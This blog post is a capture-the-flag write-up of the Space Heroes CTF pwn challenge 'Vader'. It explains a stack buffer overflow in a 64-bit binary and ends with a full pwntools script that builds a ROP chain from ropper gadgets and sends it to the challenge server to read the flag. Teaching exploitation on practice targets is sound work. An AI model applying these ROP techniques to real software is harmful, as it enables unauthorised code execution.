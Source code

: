 ```yaml
---
title: "shctf/pwn: Vader"
date: 2022-06-07 10:41:26
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- buffer-overflow
- rop-chain
description: "Learn how to exploit ELF binaries using ROP, building a chain of \"gadgets\" on the stack to pass arguments to a function! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Vader\"."
permalink: ctfs/shctf/pwn/vader/
thumbnail: /asset/banner/banner-vader.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<div class="box">
Submit flag from <code>/flag.txt</code> from <code>0.cloud.chals.io:20712</code><br>
<b>Author</b>: v10l3nt<br>
<b>Files</b>: <a href="/asset/shctf/vader">vader</a>
</div>

{% codeblock checksec.sh lang:console "https://github.com/slimm609/checksec.sh" checksec.sh github %}
[*] '/home/kali/ctfs/shctf/pwn/vader/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endcodeblock %}

As with any binary-only challenge, the first thing we must do is boot it up in the **Ghidra** disassembler. Looking through the code we can check what our main function does:

```c
undefined8 main(void)

{
  char local_28 [32];
  
  print_darth();
  printf("\n\nWhen I left you, I was but the learner. Now I am the master >>> ");
  fgets(local_28,0x100,stdin);
  return 0;
}
```

Looks like it reads our input (`stdin`) with a fixed length (256) through `fgets()`. Let's continue sifting around:

```c
void vader(char *param_1,char *param_2,char *param_3,char *param_4,char *param_5)

{
  int iVar1;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  FILE *local_10;
  
  iVar1 = strcmp(param_1,"DARK");
  if (iVar1 == 0) {
    iVar1 = strcmp(param_2,"S1D3");
    if (iVar1 == 0) {
      iVar1 = strcmp(param_3,"OF");
      if (iVar1 == 0) {
        iVar1 = strcmp(param_4,"TH3");
        if (iVar1 == 0) {
          iVar1 = strcmp(param_5,"FORC3");
          if (iVar1 == 0) {
            local_38 = 0;
            local_30 = 0;
            local_28 = 0;
            local_20 = 0;
            local_10 = (FILE *)0x0;
            local_10 = fopen("flag.txt","r");
            fgets((char *)&local_38,0x30,local_10);
            printf("<<< %s\n",&local_38);
          }
        }
      }
    }
    else {
      printf("You are a wretched thing, of weakness and fear.");
    }
    exit(1);
  }
  return;
}
```

The goal is now clear: call the `vader()` function with five correct arguments to print the flag. Simple, right? Let's start building our chain.

Firstly, we need to calculate our **offset**. Although we can brute this by simply passing a `cyclic` string and seeing what's overwritten the `$rsp` register, we can see that in the `main()` function, 32 bytes are allocated to `char local_28`. If we add 8 bytes to cover the `$rbp` register, our offset is 40.

Next in line is the process of getting our arguments on the stack. Arguments to be passed into functions are held in **registers** -- since this is a 64-bit binary, we need to figure out which ones we need to use to pass the correct arguments (`DARK`, `S1D3`, `OF`, `TH3`, `FORC3`) into `vader()`. Referencing [this x64 cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf):

> To call a function, the program should place the first six integer or pointer parameters in the registers $rdi, $rsi, $rdx, $rcx, $r8, and $r9; subsequent parameters (or parameters larger than 64 bits) should be pushed onto the stack, with the first argument topmost. The program should then execute the call instruction, which will push the return address onto the stack and jump to the start of the specified function.

Therefore, we need to put our arguments into `$rdi`, `$rsi`, `$rdx`, `$rcx`, and `$r8`. The main method of doing this is via **gadgets**, or simple assembly instructions that can be used to `pop` specific registers from the stack. After the `pop`, we can repopulate the register with our own address that represents the required string (this address will be located within the binary). Additionally, they almost always have a `ret` instruction at the end to return to *even more* gadgets, therefore creating a **ROP chain**.

**Note**: The program literally provides gadget functions for you:

```properties
00000000004011c9 <gadget1>:
  4011c9: 55                    push   rbp
  4011ca: 48 89 e5              mov    rbp,rsp
  4011cd: 59                    pop    rcx
  4011ce: 5a                    pop    rdx
  4011cf: c3                    ret    
  4011d0: 90                    nop
  4011d1: 5d                    pop    rbp
  4011d2: c3                    ret    

00000000004011d3 <gadget2>:
  4011d3: 55                    push   rbp
  4011d4: 48 89 e5              mov    rbp,rsp
  4011d7: 41 59                 pop    r9
  4011d9: 41 58                 pop    r8
  4011db: c3                    ret    
  4011dc: 90                    nop
  4011dd: 5d                    pop    rbp
  4011de: c3                    ret    
```

Although you can use these, it's not really in the nature of a ROP challenge, so I will be finding the gadgets manually!

To find the gadgets we need, we will be utilizing a program called `ropper` and `grep`-ing the output:

```console
$ ropper -f vader | grep "rdi"
```

```properties
0x000000000040145e: add byte ptr [rax], al; mov rdi, rax; call 0x1030; nop; pop rbp; ret; 
0x00000000004011bc: add byte ptr [rax], al; mov rdi, rax; call 0x1040; nop; pop rbp; ret; 
0x00000000004015e9: add byte ptr [rax], al; mov rdi, rax; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010b7: mov ecx, 0x401600; mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x00000000004010b6: mov rcx, 0x401600; mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x00000000004010bd: mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401460: mov rdi, rax; call 0x1030; nop; pop rbp; ret; 
0x00000000004011be: mov rdi, rax; call 0x1040; nop; pop rbp; ret; 
0x00000000004015eb: mov rdi, rax; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010f6: or dword ptr [rdi + 0x405060], edi; jmp rax; 
0x000000000040165b: pop rdi; ret; 
```

Check it out -- on line 14 (`0x40165b`) there's a perfect gadget for us to use! Let's find ones for the rest of them:

```properties
0x0000000000401659: pop rsi; pop r15; ret;
0x00000000004011ce: pop rdx; ret; 
0x00000000004011d8: pop rcx; pop r8; ret; 
```

The first `pop rsi; pop r15;` isn't ideal, as it's popping a redundant register -- we'll need to repopulate it with 8 bytes of garbage. On the other hand, the `pop rcx; pop r8;` takes care of two registers at once!

With that, we can draw up a visual of what our final payload will look like:

![Payload Visual](/asset/shctf/payload-visual.png)

The last thing we need to do is to find the hex addresses of our argument strings:

<img src="/asset/shctf/strings.png">
<center><sub>String data in Ghidra</sub></center>

Don't forget the address of `vader()` too!:

{% codeblock gdb-gef "x" command "https://visualgdb.com/gdbreference/commands/x" command documentation %}
gef➤  x vader
0x40146b <vader>: 0xe5894855
{% endcodeblock %}

Here is my final script, which defines a variable for each section of our gigantic payload -- this is for enhanced readability. I've also used the `p64()` function, which converts the address into little endian:

{% codeblock vader.py lang:py "https://gist.github.com/jktrn/a499cfd248125a9d57924f8f602fda30" github gist link %}
from pwn import *

offset =        b'A'*40         # OVERFLOWING 32 + 8 BYTES FOR $RBP

rdi =           p64(0x0040165b) # RDI, RSI, RDX, RCX, & R8 ARE ARGS REGISTERS
rsi_r15 =       p64(0x00401659)
rdx =           p64(0x004011ce)
rcx_r8 =        p64(0x004011d8)

dark =          p64(0x00402ec9) # ADDRESSES FOR STRINGS IN THE BINARY
side =          p64(0x00402ece)
r15_garbage =   p64(0xCAFEBEEF) # GARBAGE
of =            p64(0x00402ed3)
the =           p64(0x00402ed6)
force =         p64(0x00402eda)

vader =         p64(0x0040146b)

payload = offset
payload += rdi + dark                   # POP RDI, STORING "DARK"
payload += rsi_r15 + side + r15_garbage # POP RSI & R15, STORE "S1D3" + GARBAGE
payload += rdx + of                     # POP RDX, STORING "OF"
payload += rcx_r8 + the + force         # POP RCX & R8, STORING "TH3" + "FORC3"
payload += vader                        # ADDRESS OF VADER

p = remote("0.cloud.chals.io", 20712)
p.sendline(payload)
log.success(p.recvallS())
p.close()
{% endcodeblock %}

I don't usually do this, but here's a clip of me initially solving the challenge by running the above script:

{% youtube rvMORfSC2CU %}

This is considered a "simple" challenge for those experienced with the field of return-oriented programming within pwn/binary challenges. However, I had none prior to this competition, so <kbd>Vader</kbd> was one of the most time-consuming and annoying challenges to work with. Yet, it was probably the most satisfying solve throughout the entire competition, and it was my first time utilizing gadgets and building a ROP chain. I hope you enjoyed!

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
